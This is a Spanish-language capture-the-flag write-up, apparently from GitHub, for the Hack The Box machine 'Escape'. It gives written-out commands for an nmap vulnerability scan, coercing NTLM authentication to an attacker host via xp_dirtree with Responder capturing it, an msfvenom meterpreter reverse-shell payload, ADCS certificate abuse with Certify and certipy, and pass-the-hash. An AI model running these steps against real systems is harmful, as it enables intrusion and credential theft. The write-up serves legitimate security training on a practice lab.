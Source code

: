 # EscapeWriteUp
Writeup de Escape HTB

Empezamos con un escaneo de nmap

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.202 -Pn -p-
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225091888-805b94d6-57ee-498d-af53-2c3c3c00bea3.png)


Vemos smb en el 445, mssql en el 1433 y winrm en el 5985

Primero que nada entramos de forma anónima a smb 

![imagen](https://user-images.githubusercontent.com/108554878/225092170-f200660f-a15e-40b8-ae23-c93d50935bc2.png)

Vemos varias carpetas

Entremos a public

![imagen](https://user-images.githubusercontent.com/108554878/225092256-ca7e5137-d942-40ca-a97e-8a878a277018.png)

Vemos un pdf

Dentro del pdf encontramos unas credenciales

![imagen](https://user-images.githubusercontent.com/108554878/225092313-54426388-d5f5-476b-a821-4dc22c83dfdf.png)

Con esto nos logueamos en mssql

![imagen](https://user-images.githubusercontent.com/108554878/225092412-f47b7273-20a7-4d2c-80dd-b48e7ecb6589.png)

Estando aqui leemos que se puede hacer en mssql para entrar a la máquina

https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

Después de intentar varias cosas que vienen en la documentación ponemos

~~~
exec master.dbo.xp_dirtree '\\10.10.14.168\any\thing'
~~~

Seteamos con responder algo que consiga las credenciales NTLMv2

~~~
sudo responder -I tun0 -w 
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225092571-457a1cea-ac33-4e26-84c3-91273dd7b1c1.png)

Ahora crackeamos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225092636-eb65cfa3-2f09-43ec-81e0-e86baa09556c.png)

Encontramos las credenciales y entramos con evilwinrm

![HTB](https://user-images.githubusercontent.com/108554878/225093047-66a8ac6e-ca60-4b73-aa5e-4236317578dd.png)

Entramos con evil-winrm

Vemos que hay un errorlog .BAK

Aquí encontramos las credenciales de Ryan.Cooper

![HTB](https://user-images.githubusercontent.com/108554878/225093457-d8d46db7-36ee-45a0-8b0d-e3299bb386db.png)

Con esto encontramos el user entrando desde evil-winrm

![HTB](https://user-images.githubusercontent.com/108554878/225094140-60254216-ca82-495b-aa7d-885bcf8614ad.png)

Cambio la sesión a meterpreter 

~~~
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP de mi máquina} LPORT=1232 -f exe > xddd.exe 
~~~

Ejecutamos exploit/multi/handler y ejecutamos el .exe en la máquina

![imagen](https://user-images.githubusercontent.com/108554878/225094868-00bd831a-9d47-4a01-b2ec-85f9fa683d74.png)

Vemos los privilegios que tenemos

Calamos el exploit suggester y winpeas y no se encuentra nada interesante, después leyendo un poco encontré que se puede escalar privilegios con el uso de Active Directory Certificate Services

https://posts.specterops.io/certified-pre-owned-d95910965cd2
https://www.youtube.com/watch?v=ejmAIgxFRgM

Intentamos user certify.exe recomendado para esto, encontramos que es vulnerable

~~~
.\Certify.exe find /vulnerable
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225095523-726d8e18-c2b8-4be6-ba06-48c637752fa4.png)


Al intentar aprovecharnos de esto da un error inesperado así que usamos certipy-ad que funciona también

~~~
certipy-ad find -vulnerable -stdout -u Ryan.Cooper@sequel.htb -p {Contraseña} -dc-ip 10.10.11.202
~~~

También nos encuentra la vulnerabilidad

Obtenemos el certificado .pfx

![imagen](https://user-images.githubusercontent.com/108554878/225095856-1153251a-5586-4bda-b75b-2514ded962a5.png)

Y con esto conseguimos el hash NTLM de la máquina, con esto no necesitamos tocar lsass, ni escalar para conseguirlo

![imagen](https://user-images.githubusercontent.com/108554878/225096019-cd865bf3-b1cc-4c24-b932-4d48fb15fc8d.png)

Nos da un error, investigando es porque tenemos el tiempo desconfigurado

![imagen](https://user-images.githubusercontent.com/108554878/225096143-6cd5d309-6fdb-4678-9dd7-bb721b5c8bd5.png)

Cambiamos el tiempo

Conseguimos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225096267-eba487d6-1b64-4845-8f26-e685b15a76c9.png)


Hacemos un ataque pass-the-hash

![HTB](https://user-images.githubusercontent.com/108554878/225096498-bfd3bfeb-9b47-446e-a2b8-a5d9160bfebe.png)

Y Listo!


